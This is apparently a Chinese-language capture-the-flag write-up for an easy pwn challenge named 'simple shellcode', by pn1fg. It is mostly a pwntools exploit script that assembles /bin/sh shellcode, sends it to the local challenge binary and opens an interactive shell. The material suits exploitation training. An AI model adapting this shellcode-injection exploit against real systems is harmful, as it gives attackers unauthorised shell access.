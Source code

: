 # 简单的shellcode

- 作者：pn1fg

- 参考：-

- 难度：Easy

- 分类：Pwn

- 暴露端口：70

# 题目描述

-

# 题目解析

- 源码：[shellcode.c](build/shellcode.c)

- 考点：写shellcode

[exp.py](writeup/exp.py):

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

io = process('./shellcode')

shellcode = asm(shellcraft.sh()) 

payload = flat(
        [
            shellcode,
        ]
)

io.sendlineafter(b'!\n',payload)

io.interactive()
```
